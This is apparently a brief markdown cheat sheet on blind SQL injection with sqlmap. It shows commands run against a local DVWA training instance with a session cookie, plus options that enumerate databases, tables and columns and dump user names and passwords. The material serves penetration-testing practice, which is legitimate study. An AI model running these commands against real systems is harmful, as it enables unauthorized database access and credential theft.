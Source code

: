 ## SQL-Injections 
#### SQL (Blind) Injection example   
`sqlmap -u "url-of-attack" --cookie="full cookie name"`  

ex.  
`sqlmap -u 'http://localhost/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#' --cookie="security=low; PHPSESSID=aadfsfsasfsdffsffsdfs"`  
options--
`--dbs`  list databases  
`-D dvwa --tables`  list all tables in the dvwa database  
`-T users --column`  list all columns in table users  
`-C user,password --dump`